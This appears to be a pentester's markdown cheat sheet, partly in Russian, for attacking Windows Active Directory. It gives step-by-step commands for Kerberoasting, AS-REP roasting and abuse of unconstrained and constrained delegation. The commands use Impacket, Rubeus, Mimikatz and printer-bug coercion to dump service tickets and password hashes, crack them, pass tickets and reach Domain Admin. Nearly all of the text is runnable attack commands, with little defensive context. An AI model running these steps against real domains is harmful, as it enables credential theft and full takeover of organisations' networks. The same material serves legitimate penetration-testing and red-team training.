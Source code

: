 ## Kerberoasting (NEED CREDENTIALS!):  
1) GetUserSPNs.py domain.local/user:password - RECON SPNs  
2) GetUserSPNs.py -request -dc-ip 10.0.0.1 domain.com/username  
3) GetUserSPNs.py domain.local/user:password -dc-ip [DC IP] -request  
4) Windows: setspn -T DomainName -Q \*/\*  
    - загружаем билеты в память для дальнейних действий.  
    - Add-Type -AssemblyName System.IdentityModel  
    - New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSERVER/SQL-Server.testdomain.com:1433"  
    - Проверяем, что билет загружен в память: klist  
    - Invoke-Mimikatz –Command '" kerberos::list"' /export (модуль PowerSploit)  
        - Софт для перебора билета tgsrepcrack.py https://github.com/nidem/kerberoast  
    - После взлома пароля: net use \\WIN-4QHPFSI8002\c$ /user:SQLSVC Password1  
5) Windows: Rubeus.exe kerberoast /outfile:hashes.txt  
 
Всех пользователей, у которых можно выгрузить TGS-билет, можно найти поисковым LDAP-фильтром: (&(samAccountType=805306368)(servicePrincipalName=*))

## ASREP Roasting (Impacket, Rubeus):  

**Description**: AS-REP Roasting is a technique that enables adversaries to steal the password hashes of user accounts that have Kerberos preauthentication disabled, which they can then attempt to crack offline.  

**Get users NTLMv2 hash with Impacket**: GetNPUsers.py -userfile [file] -outputfile [output filename] -dc-ip [DC IP] domain/  

**Get users NTLMv2 hash with Rubeus**: Rubeus.exe asreproast /format:hashcat /outfile:C:\Temp\hashes.txt  

**Aditional information**:  
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast  

## Unconstrained Delegation (Covenant, Rubeus, PowerView):  

**Description**: когда компьютер доверен для делегирования, это означает, что любые службы, работающие в локальной системе, могут запрашивать службы с других серверов от имени пользователя.  

1) Import powerview;  
2) get-netcomputer -unconstrained -properties dnshostname  
   - ms-rprn.exe \\DC \\Workstation  
   - rubeus.exe dump /service:krbtgt //looking for DC ticket;  
3) Copy DC Base64 encoded krbtgt;  
   - Make fake token (Covenant): maketoken administrator <username> <junk password>  
   - rubeus.exe ptt /ticket:<Base64 encoded ticket>  
4) Get Domain Admin Rights.  
    
**Obtain TGT from another compuret (Rubeus)**:  
1) Rubeus.exe monitor /interval:10 /nowrap  
2) SharpSpoolTrigger.exe target_host listener_host  
    
**Aditional information**: https://blog.netwrix.com/2021/11/30/what-is-kerberos-delegation-an-overview-of-kerberos-delegation/  


## Constrained Delegation (Rubeus):  

Rubeus.exe s4u /impersonateuser:username /msdsspn:cifs/dc.corp.local /user:(username OR machine account) /ticket:(user or machine TGT)  
    - /impersonateuser = local admin access on the target machine (dc.corp.local)  
    - /msdsspn is the SPN that /user is allowed to delegate to.  
    - /user is the principal allowed to perform the delegation.  
    - /ticket is the TGT for /user.  


## Alternate Service Name:  


## 
